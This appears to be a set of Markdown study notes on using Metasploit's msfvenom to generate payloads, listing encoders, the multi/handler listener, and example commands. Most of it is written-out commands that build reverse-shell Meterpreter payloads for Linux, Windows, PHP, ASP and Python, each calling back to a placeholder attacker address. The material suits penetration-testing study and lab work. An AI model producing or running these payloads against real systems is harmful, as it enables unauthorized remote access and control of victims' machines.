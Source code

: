 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- 

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py